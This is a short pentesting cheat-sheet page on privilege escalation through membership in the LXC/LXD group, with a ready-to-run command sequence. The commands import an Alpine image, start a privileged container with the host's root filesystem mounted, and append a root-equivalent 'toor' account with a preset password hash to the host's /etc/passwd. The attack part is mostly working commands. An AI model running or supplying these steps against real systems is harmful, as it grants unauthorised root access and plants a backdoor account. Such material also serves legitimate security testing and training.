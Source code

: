 ## LXC/LXD Group

The **LXC/LXD** group controls access to and management of containers and the container daemon, respectively. It is a virtualization system similar to Docker, designed to provide a lightweight and isolated environment for running applications and services.

## Attack

Similar to Docker, an attacker could create a container where the entire host filesystem can be mounted. They could then access the original filesystem with root permissions to escalate privileges, for example, by creating a root user in the `passwd` file.

A common technique for privilege escalation would involve using the following container **`alpine-v3.13-x86_64-20210218_0139.tar.gz`**.

```bash
lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
lxc init myimage mycontainer -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
lxc start mycontainer
lxc exec mycontainer /bin/sh 
echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/root/etc/passwd
```

